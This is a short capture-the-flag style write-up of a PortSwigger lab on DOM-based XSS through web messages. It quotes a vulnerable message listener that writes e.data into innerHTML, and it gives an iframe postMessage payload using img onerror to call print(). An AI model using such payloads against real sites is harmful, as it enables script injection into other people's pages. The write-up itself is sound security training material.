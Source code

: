 
# DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

---------------------------------------------

Reference: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

---------------------------------------------

Generated link: https://0acb00d70448250981b389ca008b00e6.web-security-academy.net/

Vulnerable code:



![img](images/DOM%20XSS%20using%20web%20messages/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```



![img](images/DOM%20XSS%20using%20web%20messages/2.png)

Our payload will create a HTML element, an image which on load will call “print()”:

```
<iframe src="https://0acb00d70448250981b389ca008b00e6.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=x onerror=print() />','*')" style="width:100%;height:100%">
```


View exploit:



![img](images/DOM%20XSS%20using%20web%20messages/3.png)
